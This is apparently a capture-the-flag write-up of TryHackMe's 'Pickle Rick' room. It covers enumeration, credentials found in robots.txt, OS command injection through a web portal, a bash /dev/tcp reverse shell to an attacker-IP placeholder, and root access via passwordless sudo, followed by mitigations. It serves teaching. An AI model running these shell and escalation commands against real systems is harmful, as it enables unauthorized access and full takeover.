# Pickle Rick

Platform: TryHackMe | Level: Easy | Category: Web

---

## 1. Reconnaissance

The assessment began with a `Nmap` scan to identify open ports and running services.

```bash
sudo nmap -sV -sC 10.49.190.24
```



The web server was running on port **80** which is our primary attack surface.



---

## 2. Directory Enumeration

To identify hidden files and directories, perform a directory brute-forcing using Gobuster.

```bash
gobuster dir -u http://10.49.190.24 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,py,ps,html,txt # ps is actually js (javascript) lol
```

I used `dirbuster` wordlist, you can also use `seclists` wordlist



The enumeration revealed several interesting resources, including a login page, a robots.txt file, and a clue file that warranted further investigation.

---

## 3. Credential Discovery

I inspected the `index.html` source code and found a username:



Inside `robots.txt`, I found a string which looked like the password for the above username:



Although `robots.txt` is intended for search engine crawlers, developers sometimes leave useful information inside it, making it an important target during reconnaissance.

---

## 4. Authentication

I tested the credentials found early to login into `login.php`:

```text
Username: R1ckRul3s
Password: Wubba***********
```



The authentication was successful and redirected to `portal.php`



Inside the webpage, I found a command field.

So I tested the command field with a simple list directory command.

```bash
ls
```



This confirmed that we can execution arbitrary system command in the command field (OS command injection).

---

## 5. Reverse Shell

So I ran a reverse shell command in the command field:

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER IP/4444 0>&1'
```

On attacker machine:

```bash
nc -lvnp 4444
```



We got the shell.

---

## 6. Stable Shell

If you also find the shell is not stable, I would recommend you to upgrade a nc shell to a stable, interactive TTY shell using Python. Run these command in sequence:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Background your shell session: `Press Ctrl + Z on your keyboard`

Change local terminal settings & foreground the shell (on your attack machine):

```bash
stty raw -echo; fg
```

Fix terminal styling and commands (inside the re-opened target shell):

```bash
export TERM=xterm-256color
```

---

## 7. Find the Ingredients

### A. 1st Ingredient

Check the files in the directory.



```text
Sup3rS3cretPickl3Ingred.txt
```

The file was opened:

```bash
cat Sup3rS3cretPickl3Ingred.txt
```



This revealed the **first ingredient**.

---

### B. 2nd Ingredient

There is another interesting file `clue.txt` in the directory.

```bash
cat clue.txt
```



Based on the hint, I search for the other directories.

While at it, I found a interesting Base64 encoded string which was encoded upto 7 times.

```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

On decoding: `rabbit hole`

Don't know what it meant but nevermind, I started looking for other ingredients:

```bash
find / -type f -iname *ingredient* 2>/dev/null
```

```bash
cat "/home/rick/second ingredients"
```



This revealed the **second ingredient**.

---

# 8. Privilege Escalation

I couldn't find the last ingredient, so I thought let's check if we can gain the root access:

```bash
sudo -l
```



This indicated that the current user can execute commands using **sudo** without a password.

This misconfiguration allowed commands to be executed with root privileges.

```bash
sudo su
```

Gained the `root` access.

---

### C. 3rd Ingredient

After gaining root access I search for the last ingredient.

```bash
find / -type f ! -path "/usr/*" ! -path "/snap/*" ! -path "/var/*" -name "*.txt" 2>/dev/null
```

` ! -path "/path/*" : To ignore scanning unnecessary system files and directories`



```bash
cat /root/3rd.txt
```



The contents revealed the **third ingredient**, completing the room.

---

## 9. Root Cause Analysis

The challenge intentionally combines several common security weaknesses:

* Sensitive credentials exposed through publicly accessible resources.
* Information disclosure via website source code.
* A command execution interface exposed after authentication.
* Excessive sudo permissions allowing unrestricted privilege escalation.

While these weaknesses are designed for educational purposes, these mirror issues are encountered during real-world security assessments.

---

## 11. Security Impact

If found in a production environment, these issues could allow an attacker to:

* Discover credentials through publicly accessible files.
* Gain authenticated access to internal functionality.
* Execute arbitrary operating system commands.
* Escalate privileges to root.
* Obtain complete control over the affected system.

---

# 12. Mitigation

Developers and system administrators should:

* Never store credentials within HTML source code or `robots.txt`.
* Remove debugging information before deployment.
* Avoid exposing command execution functionality through web applications.
* Enforce least-privilege principles for sudo permissions.
* Regularly audit web applications for information disclosure vulnerabilities.

---

## 13. Key Takeaways

* Always begin with thorough reconnaissance.
* Enumerate hidden files such as `robots.txt` and inspect page source code.
* Small pieces of information often combine to form the complete attack path.
* Never overlook Linux privilege escalation opportunities after obtaining command execution.
* Misconfigurations at multiple stages can chain together into full system compromise.

---

## 14. Attack Chain

```text
Nmap Scan
      │
      ▼
Directory Enumeration
      │
      ▼
Source Code Inspection
      │
      ▼
robots.txt Enumeration
      │
      ▼
Credential Discovery
      │
      ▼
Login to portal.php
      │
      ▼
Command Execution
      │
      ▼
Ingredient 1
      │
      ▼
Filesystem Enumeration
      │
      ▼
Ingredient 2
      │
      ▼
sudo -l
      │
      ▼
Privilege Escalation
      │
      ▼
Ingredient 3 (Root)
```

## 15. Conclusion

The **Pickle Rick** room provides a practical introduction to the methodology followed during web application and Linux security assessments. Rather than relying on complex exploits, the room demonstrates how systematic enumeration, information gathering, and basic privilege escalation techniques can be chained together to achieve complete compromise. It reinforces an important lesson for penetration testers: successful assessments often depend more on careful reconnaissance and logical progression than on advanced exploitation techniques.